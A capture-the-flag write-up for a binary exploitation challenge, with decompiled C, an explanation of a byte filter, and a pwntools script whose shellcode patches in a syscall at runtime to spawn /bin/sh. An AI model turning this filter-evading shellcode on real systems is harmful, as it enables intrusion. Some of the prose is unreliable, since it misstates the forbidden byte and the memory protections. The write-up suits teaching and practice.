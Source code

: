 ```yaml
---
title: "Void Execution"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: THM{REDACTED}
---
```

> No description.

---

Given a binary `voidexec` and `libc.so.6` file.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  void *s; // [rsp+8h] [rbp-8h]

  setup(argc, argv, envp);
  s = mmap((void *)0xC0DE0000LL, 0x64uLL, 7, 34, -1, 0LL);
  memset(s, 0, 0x64uLL);
  puts("\nSend to void execution: ");
  read(0, s, 0x64uLL);
  puts("\nvoided!\n");
  if ( (unsigned __int8)forbidden(s) )
    exit(1);
  mprotect(s, 0x64uLL, 4);
  ((void (*)(void))s)();
  return 0;
}
```

The binary reads shellcode from the user and executes it. The shellcode is stored in a memory region that is marked as read-only. The binary then calls `mprotect` to change the memory region to read-write and then changes the memory region to read-execute. Finally, the binary calls the shellcode.

The `forbidden` function checks if the shellcode contains the bytes `0x15` or `0xCD 0x80`. If the shellcode contains these bytes, the binary exits.

```c
__int64 __fastcall forbidden(__int64 a1)
{
  unsigned __int64 i; // [rsp+10h] [rbp-10h]

  for ( i = 0LL; i <= 0x62; ++i )
  {
    if ( *(_BYTE *)(a1 + i) == 15 || *(_BYTE *)(a1 + i) == 0xCD && *(_BYTE *)(i + 1 + a1) == 0x80 )
    {
      puts("Forbidden!");
      return 1LL;
    }
  }
  return 0LL;
}
```

The idea is to write a shellcode that does not contain the forbidden bytes and execute it. So we need to write a shellcode that does not contain the bytes `0x15` or `0xCD 0x80`.

So we can write the `syscall` or `int 0x80` instructions in a different way. We can use the `inc` instruction to increment the value of the byte at the address of the instruction before the instruction executes. This way we can avoid the forbidden bytes. But the memory region is marked as read-only. So we need to change the memory region to read-write to modify the `syscall` or `int 0x80` instructions.

Since the binary is **PIE** enabled, we need to calculate the address of the `mprotect` function. To find the **PIE** base address, we need to find which register is storing some function address from the binary. So i found that the `r13` register is storing the address of the `main` function. So we can calculate the address of the `mprotect` function by subtracting the address of the `main` function from the address of the `mprotect` function. Now we can use the `lea` instruction to load the address of the `mprotect` function to the `rbx` register.

```asm
lea rbx, [r13 - main + mprotect]
```

Now we can write the shellcode to call the `mprotect` function to change the memory region to read-write and then change the memory region to read-execute. Finally, we can write the shellcode to call the `execve` syscall.

```asm
mov rdi, 0xC0DE0000
mov rsi, 0x64
mov rdx, 0x7
call rbx
```

Voila! We can now write the shellcode to call the `execve` syscall.

```py
from pwn import *

binary = './voidexec'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('10.10.150.155', 9008)

shellcode = asm(f'''
    lea rbx, [r13 - {e.sym['main']} + {e.plt['mprotect']}]

    mov rdi, 0xC0DE0000
    mov rsi, 0x64
    mov rdx, 0x7
    call rbx

    mov rax, 0x3b
    mov rdi, 0x68732f6e69622f
    push rdi
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx

    inc byte ptr [rip + syscall]
    inc byte ptr [rip + syscall + 1]
    
syscall:
    .byte 0x0e, 0x04
''')
log.info(f'Length of shellcode: {len(shellcode)}')

r.recvuntil(b'Send to void execution: ')
r.sendline(shellcode)
r.interactive()
```

## References

- [Shellcode Challenge 3](https://cov-comsec.github.io/posts/2021_assembly_and_shellcoding_walkthrough/#solution-shellcode-challenge-3)

